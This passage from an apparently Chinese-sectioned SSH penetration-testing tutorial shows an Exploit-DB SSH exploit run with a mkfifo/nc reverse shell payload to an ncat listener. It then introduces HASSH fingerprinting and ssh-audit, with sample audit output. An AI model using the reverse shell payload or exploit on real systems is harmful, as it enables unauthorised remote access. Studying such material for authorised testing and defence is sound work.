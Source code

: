 Instead of just running a command we can try to execute a reverse shell.

First we start the listener on our machine: sudo ncat -nlp 80.

Then we use a sh reverse shell payload in the exploit:

```
python /usr/share/exploitdb/exploits/linux/remote/46307.py 192.168.1.94 22 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.100 80 >/tmp/f"
```


# 五、其他工具和资源

“HASSH” is a network fingerprinting standard which can be used to identify specific Client and Server SSH implementations. The fingerprints can be easily stored, searched and shared in the form of an MD5 fingerprint.

HASSH is a standard that helps blue teams to detect, control and investigate brute force or credential stuffing password attempts, exfiltration of data, network discovery and lateral movement, etc.

**ssh-audit **is an SSH server auditing tool (banner, key exchange, encryption, mac, compression, compatibility, security, etc).

It's handy for professional pentesters to quickly detect the target version and knowing which algorithms are available on the remote server to be able to give algorithm recommendations to the customer.

Example of use:
```
$ ssh-audit 192.168.1.94
# general
(gen) banner: SSH-2.0-OpenSSH_7.9
(gen) software: OpenSSH 7.9
(gen) compatibility: OpenSSH 7.3+, Dropbear SSH 2016.73+
(gen) compression: enabled (zlib@openssh.com)

# key exchange algorithms
(kex) curve25519-sha256                     -- [warn] unknown algorithm
(kex) curve25519-sha256@libssh.org          -- [info] available since OpenSSH 6.5, Dropbear SSH 2013.62
(kex) ecdh-sha2-nistp256                    -- [fail] using weak elliptic curves
                                            `- [info] available since OpenSSH 5.7, Dropbear SSH 2013.62
(kex) ecdh-sha2-nistp384                    -- [fail] using weak elliptic curves
                                            `- [info] available since OpenSSH 5.7, Dropbear SSH 2013.62
(kex) ecdh-sha2-nistp521                    -- [fail] using weak elliptic curves
                                            `- [info] available since OpenSSH 5.7, Dropbear SSH 2013.62
(kex) diffie-hellman-group-exchange-sha256  -- [warn] using custom size modulus (possibly weak)
                                            `- [info] available since OpenSSH 4.4
(kex) diffie-hellman-group16-sha512         -- [info] available since OpenSSH 7.3, Dropbear SSH 2016.73
(kex) diffie-hellman-group18-sha512         -- [info] available since OpenSSH 7.3
(kex) diffie-hellman-group14-sha256         -- [info] available since OpenSSH 7.3, Dropbear SSH 2016.73
(kex) diffie-hellman-group14-sha1           -- [warn] using weak hashing algorithm
                                            `- [info] available since OpenSSH 3.9, Dropbear SSH 0.53

# host-key algorithms
(key) rsa-sha2-512                          -- [info] available since OpenSSH 7.2
(key) rsa-sha2-256                          -- [info] available since OpenSSH 7.2
(key) ssh-rsa                               -- [info] available since OpenSSH 2.5.0, Dropbear SSH 0.28
(key) ecdsa-sha2-nistp256                   -- [fail] using weak elliptic curves
```

[^1]: kali linux [www.offensive-security.com](https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/)